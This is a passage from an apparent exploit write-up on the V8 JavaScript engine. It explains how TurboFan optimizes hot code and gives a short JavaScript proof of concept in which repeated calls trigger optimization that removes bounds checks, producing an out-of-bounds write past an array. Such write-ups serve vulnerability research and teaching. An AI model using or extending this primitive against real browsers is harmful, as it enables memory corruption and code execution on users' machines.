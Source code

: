 Basically, a code will be executed with **interpreter \(**_**Ignition**_**\)** by default, and V8 will keep track of how many times the code segments are executed. If the code segments are executed many times \(hot code segments\), the code segments will be compiled with a **compiler \(**_**TurboFan**_**\)**. In this compilation, optimizations will be applied, thus producing a faster execution time.

![](.gitbook/assets/image%20%288%29.png)

Therefore, to make the optimizer remove the bounds-checking, we may need to run the function a lot of times before, thus triggering the JS engine to compile and optimize our `fun` function, eliminating the bounds checking.

```javascript
function fun(arg) {
	let x = new Array('x')
	let y = new Array('y')
	x[(arguments.length >> 16) * 3] = 'ehe'
	return y
}

for (let i = 0; i < 10000; i++) fun(1) // trigger optimization

args = []
args.length = 65537
console.log(fun(...args)) // output: ["ehe"]
```

Now, we can see from the output of the above code that we are able to write memory outside array _x_.
